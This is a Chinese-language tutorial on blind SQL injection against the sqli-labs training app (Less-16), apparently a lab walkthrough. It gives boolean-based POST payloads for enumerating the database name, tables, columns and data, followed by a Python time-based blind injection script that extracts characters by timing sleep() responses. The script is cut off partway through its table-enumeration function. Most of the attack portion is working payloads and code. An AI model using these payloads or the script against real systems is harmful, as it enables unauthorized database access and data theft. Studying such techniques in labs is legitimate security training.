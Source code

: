 ##### 注入方式

##### 注入步骤

- 爆数据库长度：`passwd=1&submit=Submit&uname=1admin" or length(database())=8 #`判断数据库的长度，有回显，就说明数据库名正确
- 爆数据库名：`passwd=1&submit=Submit&uname=1admin" or ascii(substr(database(),1,1)) =115 #`爆数据库名的第一个字母。将右边的1改为2,3，等即为判断第2，第3个字母
- 爆表：`passwd=1&submit=Submit&uname=1admin" or ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<113`
- 爆列：`passwd=1&submit=Submit&uname=1admin" or ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 0,1),1,1))<113#`
- 爆数据：`passwd=1&submit=Submit&uname=1admin" or ascii(substr((select concat(列1,0x3a,列2..) from 表名 limit 0,1),1,1))<113#`

#### python时间盲注脚本

```python
import requests
import time
import datetime

url = "http://127.0.0.1/sqli/Less-16/"

def get_dbname():
    db_name = ''
    for i in range(1,9):
        for k in range(32,127):
            database_payload = {'uname':'1admin") and if(ascii(substr(database(),%d,1))=%d,sleep(2),1)#'%(i,k),'passwd':'1'}
            time1 = datetime.datetime.now()
            res = requests.post(url,database_payload)
            time2 = datetime.datetime.now()
            difference = (time2-time1).seconds
            if difference > 1:
                db_name += chr(k)
                print("数据库名为->"+db_name)
get_dbname()

def get_table():
    table1 = ''
    table2 = ''
    table3 = ''
    table4 = ''
    for i in range(5):
        for j in range(6):
            for k in range(32,127):
                table_payload = {"uname":'1admin") and if(ascii(substr((select table_name from information_schema.tables where table_schema=\'security\' limit %d,1),%d,1))=%d,sleep(2),1)#'%(i,j,k),"passwd":"1"}
                time1 = datetime.datetime.now()
                res = requests.post(url,table_payload)
                time2 = datetime.datetime.now()
                difference = (time2-time1).seconds
                if difference > 1:
                    if i == 0:
                        table1 += chr(k)
                        print("第一张表名为->"+table1)
                    if i == 1:
                        table2 += chr(k)
                        print("第二张表名为->"+table2)
                    if i == 2:
                        table3 += chr(k)
                        print("第三张表名为->"+table3)
                    if i == 3:
                        table4 += chr(k)
```